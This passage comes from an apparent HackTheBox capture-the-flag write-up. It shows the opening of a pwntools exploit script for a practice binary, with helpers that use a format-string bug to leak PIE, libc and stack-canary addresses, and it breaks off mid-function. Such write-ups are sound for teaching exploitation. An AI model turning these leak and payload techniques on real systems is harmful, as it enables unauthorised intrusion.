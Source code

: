 > RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/19c11bca-ff60-49ef-9d81-dfc4cb38fee0)


12. Awesome! Let's spend all the rocks now and send our payload.

> FULL SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript="""
init-pwndbg
continue
""".format(**locals())

exe = './what_does_the_f_say_patched'
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'ERROR'
context.log_level = 'INFO'
# context.log_level = 'DEBUG'

# library = '/lib/x86_64-linux-gnu/libc.so.6'
library = './libc.so.6'
libc = context.binary = ELF(library, checksec=False)

def pie_leak(offset):
    sh.sendline(b'1')
    sh.sendline(b'2')
    sh.sendline('%{}$p'.format(offset))
    sh.recvuntil(b'Kryptonite?\n')
    get = sh.recvline().strip()
    get = int(get, 16)
    return get

def libc_leak(offset):
    sh.sendline(b'1')
    sh.sendline(b'2')
    sh.sendline('%{}$p'.format(offset))
    sh.recvuntil(b'Kryptonite?\n')
    get = sh.recvline().strip()
    get = int(get, 16)
    return get

def canary_leak(offset):
    sh.sendline(b'1')
    sh.sendline(b'2')
    sh.sendline('%{}$p'.format(offset))
    sh.recvuntil(b'Kryptonite?\n')
    get = sh.recvline().strip()
    get = int(get, 16)
    return get

def spend_rocks():
```